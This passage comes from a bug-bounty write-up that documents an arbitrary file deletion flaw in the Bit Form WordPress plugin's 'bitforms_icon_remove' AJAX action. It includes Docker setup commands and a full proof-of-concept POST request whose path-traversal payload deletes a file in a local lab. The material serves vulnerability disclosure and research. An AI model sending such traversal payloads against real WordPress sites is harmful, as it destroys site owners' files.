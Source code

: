 By searching the method name, we can know that this method was used in AJAX action `bitforms_icon_remove`:

```php
class AdminAjax
{
  public function register()
  {
    [...]
    add_action('wp_ajax_bitforms_icon_remove', [$this, 'iconRemove']);
```

With that said, once we have a valid nonce, we can delete any files on the file system!

Let's try that!

First, create a test file in the Docker container:

```shell
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-delete)-[2024.08.22|16:30:16(HKT)]
└> docker container list                                            
CONTAINER ID   IMAGE                               COMMAND                  CREATED          STATUS          PORTS                                                                                  NAMES
9e2f4f189063   wordpress-local-testing-wordpress   "docker-entrypoint.s…"   39 minutes ago   Up 39 minutes   0.0.0.0:80->80/tcp, :::80->80/tcp                                                      wordpress-wpd
[...]
┌[siunam♥Mercury]-(~/bug-bounty/Wordfence/PoC/bit-form/file-delete)-[2024.08.22|16:30:16(HKT)]
└> docker exec -it 9e2f4f189063 bash
root@9e2f4f189063:/var/www/html# echo -n 'test' > test.txt
root@9e2f4f189063:/var/www/html# chown www-data:www-data test.txt
root@9e2f4f189063:/var/www/html# ls -lah test.txt 
-rw-r--r-- 1 www-data www-data 4 Aug 22 08:31 test.txt
```

Then, send the following POST request to `/wp-admin/admin-ajax.php`:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_icon_remove&_ajax_nonce=56951b1f2d HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 65
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7C2ed64b58bd1e6545e080831efa73208d7cd7a7d7db74f82d917bf1d084221f56; wp-settings-time-1=1724314921; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724485955%7C3MuslQ6YljdYmnUlWZHpXwkZNaOrPk5joqULpXwVLYr%7Cc3ff3cd5203d9aa8bd10333b517737a257f01a675a5701cfae83a2855c027d65; PHPSESSID=btmj60280414pvpn1970aan8n7

{"file":"../../../../../../../../../../../var/www/html/test.txt"}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240822163329.png)

Now the test file should be deleted, right?
